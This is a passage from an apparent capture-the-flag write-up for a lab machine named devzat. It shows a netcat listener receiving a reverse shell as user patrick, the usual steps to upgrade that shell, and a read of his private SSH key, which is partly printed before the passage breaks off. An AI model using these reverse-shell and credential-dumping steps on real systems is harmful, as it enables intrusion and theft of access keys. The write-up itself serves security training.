 [![015_add_pet](/img/devzat/015_add_pet.png)](/img/devzat/015_add_pet.png)

This results in a reverse shell on our listener as patrick which we upgrade and fix the terminal size.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.249.
Ncat: Connection from 10.129.95.249:53630.
bash: cannot set terminal process group (923): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
patrick@devzat:~/pets$ export TERM=xterm
export TERM=xterm
patrick@devzat:~/pets$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

patrick@devzat:~/pets$ stty rows 55 cols 236
```

Looking around in patrick's home directory we find his private ssh key.

```
patrick@devzat:~/pets$ cat ~/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA0z5vGXu4rlJWm2ffbekliU8N7KSuRj9tahP3+xTk/z/nKzb2UCi7
kh7oISloGR+05LuzZrv1sYWcFVBQ6ZIgxtZkj3iurshqbk5p3AqJhbw9wmpXRa2QjcW0Pw
W1nsjVaRfbM3lU8H3YGOTzaEBUNK3ksLXp1emrRAOVn62c4UmV1rlhJ/uxwfQusNWmqopD
0A0EsUQK3C2WOXIIzct+GTJOzC2lnIivff8RGLjRAG0db9P/CLVb+acg/EDBQ/rNjcB5On
id4apLNheVSXqiGS9oF7wZoL0CfHwS29KQTesWtcZDgD6UJKwS9KRBKihULHSWiMw6QgRp
hC9BPw3zug7MqvnZnBbLccH7zTvODpqA9lAK2/z8WT2jqMIxOOxkR5evHAyIt1CyoyqDIN
kA+862sn3Oylz/KhDtI+V8LNJ1zJZelTvRrp+pPcml5BL6xY3y7nKiBK3e3i7UbwxcHH8N
FXX5UnZnxM/zZFfJBaV5u4qKUynXMDXKozZ0tUyLAAAFiF8Fn3tfBZ97AAAAB3NzaC1yc2
EAAAGBANM+bxl7uK5SVptn323pJYlPDeykrkY/bWoT9/sU5P8/5ys29lAou5Ie6CEpaBkf
tOS7s2a79bGFnBVQUOmSIMbWZI94rq7Iam5OadwKiYW8PcJqV0WtkI3FtD8FtZ7I1WkX2z
N5VPB92Bjk82hAVDSt5LC16dXpq0QDlZ+tnOFJlda5YSf7scH0LrDVpqqKQ9ANBLFECtwt
ljlyCM3LfhkyTswtpZyIr33/ERi40QBtHW/T/wi1W/mnIPxAwUP6zY3AeTp4neGqSzYXlU
```